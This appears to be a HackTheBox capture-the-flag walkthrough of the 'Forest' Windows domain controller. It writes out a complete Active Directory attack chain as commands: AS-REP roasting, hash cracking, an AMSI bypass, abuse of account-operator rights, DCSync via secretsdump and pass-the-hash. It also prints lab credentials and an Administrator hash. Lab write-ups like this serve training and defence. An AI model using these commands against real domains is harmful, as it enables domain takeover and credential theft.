


# Forest — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Windows

---

## TL;DR

LDAP enumeration reveals a service account with Kerberos Pre-Authentication disabled (`svc-alfresco`) → AS-REP Roasting extracts its TGT hash which we crack for initial access → BloodHound analysis shows `svc-alfresco` is in `Account Operators`, allowing us to add users to the `Exchange Windows Permissions` group → We create a new user, add it to the group, and leverage `WriteDacl` permissions over the domain to grant our new user `DcSync` rights → Dump the Administrator hash using `secretsdump`.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -p- -n -Pn -sV --min-rate=9362 10.10.10.161
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 88 | Kerberos | Microsoft Windows Kerberos |
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 389 | LDAP | Microsoft Windows AD LDAP (Domain: htb.local) |
| 445 | SMB | Windows Server 2016 Standard 14393 microsoft-ds |
| 464 | kpasswd | kpasswd5 |
| 593 | RPC over HTTP | Microsoft Windows RPC over HTTP 1.0 |
| 636 | LDAP (SSL) | tcpwrapped |
| 3268 | Global Catalog | Microsoft Windows AD LDAP |
| 3269 | Global Catalog (SSL) | tcpwrapped |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |
| 9389 | AD Web Services | .NET Message Framing |

The target is a Windows Server 2016 Domain Controller for `htb.local`.

---

## Exploitation — AS-REP Roasting 

Initial enumeration of SMB reveals no anonymous shares. We turn to LDAP and RPC for user enumeration.

Using anonymous LDAP queries, we can extract the `sAMAccountName` for all User objects:

```bash
ldapsearch -H ldap://10.10.10.161/ -x -b 'DC=htb,DC=local' '(ObjectClass=person)' sAMAccountName | grep sAMAccountName
```

This returns several usernames, including `sebastien`, `lucinda`, `andy`, `mark`, and `santi`.
We verify and expand this list by using `enum4linux`, which hooks into RPC to dump users via their RIDs:

```bash
enum4linux 10.10.10.161
```

The output reveals an interesting service account: `svc-alfresco` (RID 0x47b).

Service accounts in Active Directory are often configured without "Kerberos Pre-Authentication" to support legacy applications or specific implementations (like Alfresco). 

We attempt an **AS-REP Roasting** attack against the domain to see if any users (specifically `svc-alfresco`) have this setting enabled:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -request
```

The attack succeeds! We receive the AS-REP hash for `svc-alfresco`.

We save the hash and crack it offline using Hashcat (Mode 18200) and the RockYou wordlist (`/usr/share/wordlists/rockyou.txt`):

```bash
hashcat -m 18200 alfresco.hash /usr/share/wordlists/rockyou.txt
```

The password is successfully cracked: `svc-alfresco:s3rvice`. 
With valid credentials and port 5985 open, we connect directly using Evil-WinRM:

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

We now have local access.

---

## Privilege Escalation — ACL Abuse (DCSync)

Once on the machine, our priority is mapping out the Active Directory permissions logic using BloodHound. We run the SharpHound ingestor or the Python equivalent locally and load the data.

Analyzing the generated graphs, we discover that `svc-alfresco` is a member of the **Account Operators** group. 



The `Account Operators` group enables its members to create, modify, and delete non-protected users and groups. 

Further inspecting BloodHound, we trace paths to High Value Targets. We see that the **Exchange Windows Permissions** group has `WriteDacl` permissions over the entire domain object. `WriteDacl` allows modifying Access Control Lists (ACLs)—meaning anyone in that group can grant themselves arbitrary permissions (like DCSync).

Because we are in `Account Operators`, we can add arbitrary users to `Exchange Windows Permissions`! 



We execute our attack plan directly from our Evil-WinRM session:
1. Bypass AMSI to allow malicious PowerShell execution: `Bypass-4MSI` (built into Evil-WinRM).
2. Create a new domain user named `john`.
3. Add `john` to the `Exchange Windows Permissions` group.
4. Add `john` to the `Remote Management Users` group (optional, but good for WinRM access).

```powershell
net user john pass123 /add /domain
net group "Exchange Windows Permissions" john /add
net localgroup "Remote Management Users" john /add
```

Now `john` possesses `WriteDacl` rights over the domain. We import PowerView and use it to grant `john` the `DcSync` right against the domain root:

```powershell
$pass = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\john', $pass)
Add-ObjectAcl -PrincipalIdentity john -Credential $cred -Rights DCSync
```

With `DCSync` rights, `john` can request password hashes from the Domain Controller seamlessly. We switch back to our attacking machine and use `secretsdump`:

```bash
impacket-secretsdump htb.local/john:pass123@10.10.10.161
```

This dumps the NTLM hash for the Domain Admin: 
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

We perform a Pass-The-Hash attack with Evil-WinRM:

```bash
evil-winrm -i 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

We are `NT AUTHORITY\SYSTEM`. **Root.** 🎉

---

## Key Takeaways

- **Kerberos Pre-Authentication:** Disabling Pre-Auth on service accounts leaves them highly vulnerable to offline dictionary attacks via AS-REP Roasting.
- **Account Operators:** The `Account Operators` group holds immense power. It allows lateral movement and permission escalation by manipulating non-protected secondary groups (like `Exchange Windows Permissions`).
- **WriteDacl:** The `WriteDacl` permission over the domain root is functionally equivalent to Domain Admin, as it allows attackers to assign themselves the replication rights necessary for DCSync attacks.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*